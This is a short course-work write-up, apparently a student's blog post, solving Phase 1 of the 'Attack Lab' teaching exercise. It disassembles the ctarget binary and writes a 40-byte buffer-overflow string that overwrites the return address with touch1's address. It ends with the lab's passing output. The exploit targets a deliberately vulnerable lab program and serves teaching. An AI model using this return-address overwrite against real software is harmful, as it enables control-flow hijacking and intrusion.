 ```yaml
---
category:
- Course Work
title: 'Attack Lab: Phase 1'
date: '2022-04-23T00:00:00+08:00'
tags:
- Attack Lab
- Computer Organization and Architecture
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b3e <touch1>:
...
```

###### Write File `phase-1.txt`

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
3e 1b 40 00 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-1.txt > phase-1.in
./ctarget -i phase-1.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
